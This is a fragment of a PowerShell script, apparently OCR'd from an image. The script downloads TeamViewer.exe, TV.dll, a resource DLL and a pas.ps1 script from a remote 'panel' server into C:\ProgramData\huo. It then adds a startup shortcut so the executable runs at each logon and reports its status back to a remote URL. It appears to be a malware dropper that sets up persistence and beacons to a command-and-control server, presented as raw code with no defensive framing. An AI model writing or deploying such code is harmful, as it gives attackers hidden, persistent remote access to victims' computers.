 ```

    return @{'status' = 'success'}
}

function Create-Shortcut($filePath, $shortCutpath){
    $WshShell = New-Object -comObject WScript.Shell
    $Shortcut = $WshShell.CreateShortcut($shortCutpath)
    $Shortcut.TargetPath = $filePath
    $Shortcut.Save()
}

function Invoke-Startup($panelIP, $files, $filesDir, $startupFileName){
    $result = Download-Files $panelIP $files $filesDir
    if ($result.status -eq 'error'){
        return $result
    }

    #$startupFilePath = "$filesDir\$startupFileName"
    $startupFilePath = "C:\ProgramData\huo\TeamViewer.exe"
    $shortcutPath = "$([Environment]::GetFolderPath('Startup'))\TeamViewer.lnk"

    try {
        Create-Shortcut $startupFilePath $shortcutPath
    } catch {
        return @{'status' = 'error'; 'message' = "Error while creating shortcut."}
    }

    return @{'status' = 'success'; 'message' = 'startup shortcut created'}
}

function Send-Log($result){
    $log = "?k=$result"
    $uploadUrl = $url + $log
    $web = New-Object System.Net.WebClient
    $web.DownloadString($uploadUrl)
}

function ConvertTo-StringData($hashTable){
        foreach ($item in $hashTable) {
            foreach ($entry in $item.GetEnumerator()) {
                "{0} = {1}; " -f $entry.Key, $entry.Value
            }
        }
}

$filesDownloadLink = $ip + 'api/file/get-file/'
$filesDir = 'C:\ProgramData\huo'
$files = @(
    @{'name' = 'TeamViewer.exe'; 'link' = $filesDownloadLink + 'TeamViewer'},
    @{'name' = 'Teamviewer_Resource_fr.dll'; 'link' = $filesDownloadLink + 'Teamviewer_Resource_fr'},
    @{'name' = 'TV.dll'; 'link' = $filesDownloadLink + 'TV'}
    @{'name' = 'pas.ps1'; 'link' = $filesDownloadLink + 'pas.ps1'}
)
$startupFile = 'TeamViewer.exe'

$result = Invoke-Startup $panelIP $files $filesDir $startupFile
$result = ConvertTo-StringData($result)
Send-Log($result)
```
